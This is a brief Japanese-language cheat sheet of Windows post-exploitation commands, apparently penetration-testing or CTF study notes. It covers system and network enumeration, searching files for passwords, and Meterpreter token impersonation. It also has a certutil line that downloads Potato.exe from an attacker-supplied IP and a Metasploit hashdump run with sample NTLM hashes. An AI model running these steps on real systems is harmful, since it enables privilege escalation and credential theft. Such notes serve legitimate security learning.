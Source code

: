 # Windows

## 情報収集

```shell
systeminfo
```

```shell
whoami /priv
whoami /groups
```

```shell
net user
net user <user>
```

```shell
ipconfig
arp -a
route print
netstat -ano
```

```shell
findstr /si password *.txt
```

```shell
sc query
sc query windefend
```

```shell
netsh firewall show state
```

```shell
meterpreter> run post/multi/recon/local_exploit_suggester
```

```shell
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token <domain\username>
```

```shell
# wget と同じ効果
certutil -urlcache -f http://<ip>/Potato.exe Potato.exe
```

### hashdump

特権ユーザーのセッションが必要

```shell
msf6 post(windows/gather/hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::
```
